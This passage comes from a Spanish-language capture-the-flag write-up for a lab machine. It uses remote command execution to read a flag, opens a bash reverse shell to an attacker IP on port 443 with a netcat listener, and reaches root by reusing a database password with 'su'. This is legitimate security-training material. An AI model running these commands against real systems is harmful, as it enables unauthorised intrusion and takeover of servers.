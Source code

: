 Podemos emplear estas credenciales para intentar cambiar al usuario `root`, pero para ello primero deberemos obtener acceso a la máquina.

Aprovechando que podemos realizar ejecución remota de código, leemos la primera flag en la ruta principal del usuario `www-data`.

```bash
Enter Command $ls /home
systemwww-data

Enter Command $ls /home/www-data
systemflag.txt

Enter Command $cat /home/www-data/flag.txt
system6470e394cbf6********************
```

Para ganar acceso simplemente ejecutamos el siguiente comando para obtener una reverse shell.

```bash
Enter Command $bash -c "bash -i >& /dev/tcp/10.2.11.100/443 0>&1"
```

Una vez puesto en escucha en el puerto especificado en el comando anterior, obtenemos acceso al servidor.

```bash
❯ nc -lvnp 443
listening on [any] 443 ...
connect to [10.2.11.100] from (UNKNOWN) [10.10.226.203] 40702
bash: cannot set terminal process group (959): Inappropriate ioctl for device
bash: no job control in this shell
www-data@ubuntu:/var/www/html$
```

## Escalación de privilegios

---

Una vez obtenido el acceso, seguimos los pasos detallados en [Tratamiento de la TTY](https://itzjp-sec.github.io/posts/tratamiento-tty/) para conseguir una shell más interactiva y funcional.

Después, intentamos cambiar al usuario `root` con la contraseña encontrada anteriormente en la configuración de la base de datos.

```bash
www-data@ubuntu:/var/www/html$ su root
Password: 
root@ubuntu:/var/www/html# whoami
root
```

Una vez que somos usuario `root`, solo tenemos que entrar en su directorio y conseguir la última flag de la máquina.

```bash
root@ubuntu:/var/www/html# cd
root@ubuntu:~# ls
root.txt
root@ubuntu:~# cat root.txt 
b9bbcb33e11b80be7***************
```

!Happy Hacking¡
